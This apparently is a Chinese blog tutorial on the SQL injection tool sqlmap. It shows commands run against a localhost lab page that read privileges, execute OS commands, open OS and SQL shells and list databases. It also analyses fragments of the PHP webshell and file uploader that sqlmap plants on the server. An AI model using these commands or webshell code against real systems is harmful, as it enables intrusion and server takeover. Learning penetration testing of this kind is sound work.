








SQLMAP 新手教程（二）
文章目录
上一节：SQLMAP 新手教程（一）
本节进一步介绍 SQLMAP 的常见使用。
0x00 SQLMAP 常见参数
注： SQLMAP 命令是区分大小写的
(1) 测试注入点权限
1 | sqlmap.py -u "http://localhost/diy/sqli.php?id=1" --privileges |
结果如图：

(2) 执行shell命令
1 | sqlmap.py -u "URL" --os-cmd="ping 127.0.0.1" |
执行 --os-cmd="ping xxx"的时候，首先会收到 SQLMAP 的提示，是否知道 web 应用的编程语言？此处选择 PHP，也是默认选项。然后 SQLMAP 识别了网站绝对路径，并且上传了2个临时的随机命名的 PHP 脚本文件（后门）至网站根目录，如图：

接着会询问是否显示命令行标准输出，选择 Y：

执行 --os-shell 的时候，除了上述那些内容外，还会反弹一个命令行 Shell，并且可以支持 Linux 命令（尽管服务器是 Win 系统）：

来查看一下 SQLMAP 为我们创建的那两个后门文件的内容：

找个网站格式化一下，终极内容如下：
code1.php：

和 code2.php：（虽然我也不知道为啥第二个文件开始要有 admin admin 这两个字段…）

后门代码分析：
主要函数：
1 |
文件分析：
code1.php :
先是在开头设置了配置选项，并用 $c 来接受请求参数，也就是接受命令的地方，在“菜刀”中被称为口令？或者“密码”，whatever，使用 $z 来得到配置文件 禁止了哪些 高危函数，如果管理员设置了 disable_functinos 则用正则表达式等工具提取出已被禁用的函数，组成列表，方便上下文来查询某个命令是否可以执行。
1 | $c = $_REQUEST["cmd"]; |
f( $n ) 函数就是用来判断函数能不能被执行的，同时将命令末尾加上错误重定向：
1 | $c = $c." 2>&1"; |
接下来就是一步一步测试哪个高危PHP函数（见:高危PHP函数列表）没有被管理员禁止，并调用那个函数来执行系统命令：
1 | if (f("system")) { |
code2.php
这个 PHP 文件是用来处理上传的（小马？），应该是 SQLMAP 用来将上文那个 PHP webshell 文件上传至服务器，它构造了一个表单，并由 SQLMAP 填充需要上传的值：
1 | echo "<form action=".$_SERVER["PHP_SELF"]." method=POST enctype=multipart/form-data><input type=hidden name=MAX_FILE_SIZE value=1000000000><b>sqlmap file uploader</b><br><input name=file type=file><br>to directory: <input type=text name=uploadDir value=D:\phpStudy5.2\WWW\><input type=submit name=upload value=upload></form>"; |
对不同 PHP 版本的判断并上传：
1 | if (isset($_REQUEST["upload"])) { |
(3) 获取当前数据库名称
1 | sqlmap.py -u "http://127.0.0.1/diy/sqli.php" --current-db |

(4) 执行SQL命令
1 | sqlmap.py -u "http://127.0.0.1/diy/sqli.php" --sql-shell |
(5) POST提交方式
(6) 显示详细的注入等级（--level）
(7) 注入 HTTP 请求
(8) 将注入语句插入到指定位置
(9) 学会使用插件
其他更多使用，可以参考：https://www.cnblogs.com/dgjnszf/p/10808125.html
0x01 小结
原文作者: pwn4justice
原文链接: https://pwn4justice.github.io/2019/07/02/SQLMAP-新手教程（二）/
License: 知识共享署名-非商业性使用 4.0 国际许可协议